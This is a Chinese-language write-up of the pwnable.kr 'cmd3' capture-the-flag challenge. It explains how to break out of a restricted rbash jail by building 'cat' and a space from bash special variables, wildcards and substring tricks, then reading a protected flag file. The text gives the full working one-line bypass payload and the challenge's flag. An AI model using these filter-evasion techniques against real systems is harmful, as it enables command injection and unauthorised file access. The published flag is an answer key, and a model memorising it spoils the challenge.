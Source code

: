 # pwnable.kr 'cmd3' writeup

### 可用的字符

```
$ ( , < @ \ # + / ; ? [ _ { . : > ^ ~ % ) - = ] }
```

### 已知的限制

/bin/rbash: line 1: /: restricted: cannot specify `/' in command names

rbash 中不能在命令中使用/， 但是可以在参数中使用

###目前探知可用的字符组合

| 字符组合          | 含义                                       |
| ------------- | ---------------------------------------- |
| $( )          | 执行某一个命令                                  |
| $@            | 和$*类似，指所有参数                              |
| $*            | 所有参数                                     |
| $?            | 返回上一条命令的执行结果，但是目前总是返回0                   |
| $$            | 返回当前 shell 的 pid                         |
| $_            | 返回上一条命令的命令名（无参数）或者最后一个参数                 |
| .             | 等同于 source，导入文件                          |
| %             | 等同于%1，调用 jobs 中的第一个 job                  |
| $((exp))      | 对表达式进行数学运算                               |
| ?             | bash中的通配符，可以匹配一个字母, 可以这样读取一个文件的内容`cat ????/??????` |
| ${#var}       | 返回变量的string length.如果 var 是 array，那么返回数组的第一个元素的长度（可以构造任意的数字了） |
| var=({a,b,c}) | 大括号扩展，生成一个数组                             |
| ${array[@]}   | 将数组的所有元素以空白符分隔，转换为字符串                    |
| ${var}        | 引用变量                                     |
| ${var:1:2}    | 相当于substr(var, start, length)            |
|               |                                          |
|               |                                          |
|               |                                          |
|               |                                          |

source 和 `.` 的区别： source 的参数为当前目录下的文件的时候可以不用加`./`而`.`必须要加上`./`

#### 整体思路

这道题最后还是没有独立做出来，看了这位仁兄的 [writeup](http://alkalinesecurity.com/blog/ctf-writeups/pwnable-challenge-cmd3/) 以及 Bash 的 [Manual](http://tldp.org/LDP/abs/html/special-chars.html)这道题的思路是最后 要构造一条命令`$(cat /tmp/___)`, 而/tmp/___这个文件里面的内容是`cat /home/cmd3\_pwn/flagbox/$filename`, filename 是一个长度为32位的随机字符串，但是 nc 连上 shell 之后程序会告诉你filename 的值。而要构造出这个命令，关键是要构造出 cat 和空格，而 cat 和空格都是被过滤掉的。

#### 构造 cat

构造 cat 需要用的`_`这个变量，关于这个变量 bash manual 里面的说明是这样的。




> 1. At shell startup, set to the absolute pathname used to invoke the shell or shell script being executed as passed in the environment or argument list.
> 2. Subsequently, expands to the last argument to the previous command, after expansion.
> 3. Also set to the full pathname used to invoke each command executed and placed in the environment exported to that command.
> 4. When checking mail, this parameter holds the name of the mail file.

从中可以看出`_`这个变量会被设置成执行命令的完整路径名，在这个命令没有参数的情况下。所以`jail/cat;echo $_`就会打印出jail/cat， 虽然 rbash 限制了命令中不能带有`/`，但是不影响`_`的设置（why？）。但是`jail/cat`也带有字母啊，这就要用到`?`这个通配符了，`?`可以通配任意一个字符。

```shell
➜  cmd3 nc pwnable.kr 9023
total 4940
drwxr-x---  5 root cmd3_pwn    4096 Mar 15  2016 .
drwxr-xr-x 80 root root        4096 Jan 11 23:27 ..
d---------  2 root root        4096 Jan 22  2016 .bash_history
-rwxr-x---  1 root cmd3_pwn    1421 Mar 11  2016 cmd3.py
drwx-wx---  2 root cmd3_pwn   24576 Apr 19 03:07 flagbox
drwxr-x---  2 root cmd3_pwn    4096 Jan 22  2016 jail
-rw-r--r--  1 root root     5009202 Apr 19 05:12 log
-rw-r-----  1 root root         764 Mar 10  2016 super.pl
total 8
drwxr-x--- 2 root cmd3_pwn 4096 Jan 22  2016 .
drwxr-x--- 5 root cmd3_pwn 4096 Mar 15  2016 ..
lrwxrwxrwx 1 root root        8 Jan 22  2016 cat -> /bin/cat
lrwxrwxrwx 1 root root       11 Jan 22  2016 id -> /usr/bin/id
lrwxrwxrwx 1 root root        7 Jan 22  2016 ls -> /bin/ls
```

可以观察看出 jail 命令下有三个命令，cat、id 和 ls，有用的只有 cat。`????/???`这条命令正好可以匹配到`jail/cat`，所以我们就能成功的把 `_`设置成`jail/cat`了。但是最终的命令中不能包含`/`，所以我们还需要要用到`${_:5:3}`这个语法，这个语法相当于`substr($_, 5, 3)`， 从字符串的索引为5的字符开始，截取三个字符，这样就能得到`cat` 了。

#### 构造空格

下一步就是构造空格了，我们可以用大括号的语法生成一个数组, `a=({.,.})`，然后把这个数组转换成用空格分割的 string, `b=${a[@]}`然后再截取出中间的空格就行了。也可以采用另一种方式构造数组

```shell
➜  cmd3 __=$(($$/$$))					# __=1
➜  cmd3 ___[${__}]=.					# ___[1]=.
➜  cmd3 ____=$((${__}+${__}))			# ____=2
➜  cmd3 ___[${____}]=.					# ___[2]=.
➜  cmd3 echo $___			#echo 数组的时候会用空格分割各个元素
. .
➜  cmd3 _____=${___[@]}		# _____=. . (数组转换成 sting)
➜  cmd3 ______=${_____:__:__};echo -n $______ #截取空格符
 %
```



#### 最后的脚本

```shell
#分步说明
__=$(($$/$$))			#(2)__=1
___=$((${__}+${__}))	#(3)___=2
____=$((${___}+${__}))	#(4)____=3
_____=({.,.})			#(5)_____=. .(array)
________=${_____[@]}	#(8)________=. .(string)
______=${________:__:__}	#(6)______=[space]
_______=$((${___}+${____}))	#(7)_______=5
????/???				#jail/cat, makes $_ to jail/cat
$(${_:_______:____}${______}/???/___)	#$(cat /tmp/___)

#连在一起成为一条命令
__=$(($$/$$));___=$((${__}+${__}));____=$((${___}+${__}));_____=({.,.});________=${_____[@]};______=${________:__:__};_______=$((${___}+${____}));????/???;$(${_:_______:____}${______}/???/___)

```

```
__=$(($$/$$));___=$((${__}+${__}));____=$((${___}+${__}));_____=({.,.});________=${_____[@]};______=${________:__:__};_______=$((${___}+${____}));$(.${______}/tmp/___)
```



### 坑点

1. 在远程 shell 上用`__=$(($$/$$))`给变量赋值之后， 下一条命令`$__`，shell 却没有任何输出，按道理应该会输出command 1 not found的，但是在自己的本地 shell 上是输出的。后来发现把这两条命令用分号连起来，`__=$(($$/$$));$__` 就能成功输出了。

2. 一开始是想用`.`这个符号构造    

   `$(. ???????/????????????????????????????????)`的，但是作者肯定也考虑到了这点，把 flagbox 这个目录设置成不可读的，所以通配符就失去了作用，因为通配符要能起作用是建立在 bash 能读取这个文件夹的内容，然后找到匹配的文件的情况下的。

3. $(. /???/___)似乎也是一个思路，在 bash 下是可行的，但是在 rbash 下面不可行

   ```shell
   dddong@ubuntu:/media/psf/Home/workspace/CTF/pwnable/cmd3$ . /tmp/___
   rbash: .: /tmp/___: restricted


   ```

   可能是 rbash 限制了 source 功能吧， 如果`.`的参数带有`/`，就会输出 restricted，如果不带有`/`

   ```shell
   dddong@ubuntu:/media/psf/Home/workspace/CTF/pwnable/cmd3$ . test.sh
   rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
   ```

   就会输出这么一串奇怪的东西



#### 最终 flag

flag： D4ddy_c4n_n3v3r_St0p_m3_haha